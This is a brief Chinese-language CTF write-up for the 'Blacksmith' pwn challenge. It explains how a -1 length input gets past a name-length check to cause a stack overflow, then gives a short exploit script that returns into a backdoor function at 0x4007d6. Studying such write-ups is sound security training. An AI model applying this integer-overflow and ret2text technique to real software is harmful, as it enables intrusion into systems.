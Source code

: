 # Blacksmith

Pwn类签到题。本题的输出让这题看上去像堆题，但实际上只有第一个锻造剑的功能是有实际作用的。可以看到在给剑命名时，首先要输入名字长度，如果长度超过`0x40`则失败。但是注意到名字长度这个变量是无符号的，因此可以整数溢出：输入`-1`，则可输入`0xffffffffffffffff`字符，绕过了这个判断。

随后就可以栈溢出了，程序中存在后门函数，直接`ret2text`。
```py
sla('> ','1')
sla('name?\n','-1')
payload = flat('a'*0x48,0x4007d6)
sla('is?\n',payload)
```
